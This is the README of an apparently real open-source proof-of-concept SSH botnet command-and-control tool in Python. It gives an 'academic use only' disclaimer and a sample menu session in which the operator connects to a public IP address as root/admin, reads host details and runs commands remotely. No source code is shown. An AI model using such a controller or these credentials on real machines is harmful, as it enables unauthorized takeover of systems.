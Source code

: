 Proof of Concept of SSH Botnet C&C Using Python 

Original Concept:
http://raidersec.blogspot.com/2013/07/building-ssh-botnet-c-using-python-and.html

This tool is meant for academic use only.  It is not meant for use on systems the operator does not have consent to operate on.  The author of this code takes no responsibility for its use.  Please do not use this system publicly, unless you contact the author first.

      _________      .__    .___                          __   
     /   _____/_____ |__| __| _/___________  ____   _____/  |_ 
     \_____  \\____ \|  |/ __ |/ __ \_  __ \/    \_/ __ \   __\
     /        \  |_> >  / /_/ \  ___/|  | \/   |  \  ___/|  |  
    /_______  /   __/|__\____ |\___  >__|  |___|  /\___  >__|  
            \/|__|           \/    \/           \/     \/      
            
            

        
Usage: python spidernet.py
    
    #> python spidernet.py 
    [0] Connect Hosts
    [1] Update Hosts
    [2] List Hosts
    [3] Host Details
    [4] Run Command
    [5] Open Shell
    [6] Exit
    #> 0
    ----------Active Hosts-------------
    Host: 58.67.140.44:22 (root/admin)
    Active: True
    -----------------------------------
    [0] Connect Hosts
    [1] Update Hosts
    [2] List Hosts
    [3] Host Details
    [4] Run Command
    [5] Open Shell
    [6] Exit
    #> 3
    -----------------------------------
    ----------Hosts Details------------
    [+] Host           : 58.67.140.44:22 (root/admin)
     - Active          : True
     - R - Hostname    : testhost00
     - R - IP Address  : 192.168.1.254
     - R - User        : root
     - uname           : Linux testhost00 3.10.19+ #600 PREEMPT Sat Nov 16 20:34:43 GMT 2013 armv6l GNU/Linux
     - uptime          : 00:27:04 up 3 days,  4:12,  1 user,  load average: 1.20, 1.28, 1.16
    -----------------------------------
    [0] Connect Hosts
    [1] Update Hosts
    [2] List Hosts
    [3] Host Details
    [4] Run Command
    [5] Open Shell
    [6] Exit
    #> 4
    -----------------------------------
    Command: uname -a
    192.168.1.254 : Linux testhost00 3.10.19+ #600 PREEMPT Sat Nov 16 20:34:43 GMT 2013 armv6l GNU/Linux
    -----------------------------------
    [0] Connect Hosts
    [1] Update Hosts
    [2] List Hosts
    [3] Host Details
    [4] Run Command
    [5] Open Shell
    [6] Exit
    #> 
